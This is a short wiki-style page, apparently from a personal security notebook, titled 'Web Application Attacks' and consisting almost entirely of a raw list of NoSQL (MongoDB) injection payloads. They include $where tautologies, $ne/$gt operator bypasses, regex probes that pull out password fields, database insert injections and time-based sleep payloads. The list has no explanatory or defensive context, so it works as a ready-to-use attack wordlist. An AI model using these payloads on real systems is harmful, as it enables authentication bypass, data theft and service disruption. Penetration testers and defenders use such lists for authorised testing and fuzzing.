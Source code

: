 ```yaml
---
title: Web Application Attacks
description: NOSQL Injection Payloads
published: true
date: 2021-01-21T03:36:14.214Z
tags: 
editor: markdown
dateCreated: 2021-01-21T03:34:38.781Z
---
```


#NOSQLi Injection Payloads
true, $where: '1 == 1'
,$where: '1 == 1'
$where: '1 == 1'
',$where: '1 == 1'
1,$where: '1 == 1'
{ $ne: 1 }
', $or: [ {}, { 'a':'a
' } ], $comment:'successful MongoDB injection'
db.injection.insert({success:1});
db.injection.insert({success:1});return 1;db.stores.mapReduce(function() { { emit(1,1
|| 1==1
' && this.password.match(/./)//+%00
' && this.passwordzz.match(/./)//+%00
'%20%26%26%20this.password.match(/./)//+%00
'%20%26%26%20this.passwordzz.match(/./)//+%00
{$gt: ''}
[$ne]=1
';sleep(5000);
';sleep(5000);'
';sleep(5000);+'
';it=new%20Date();do{pt=new%20Date();}while(pt-it<5000);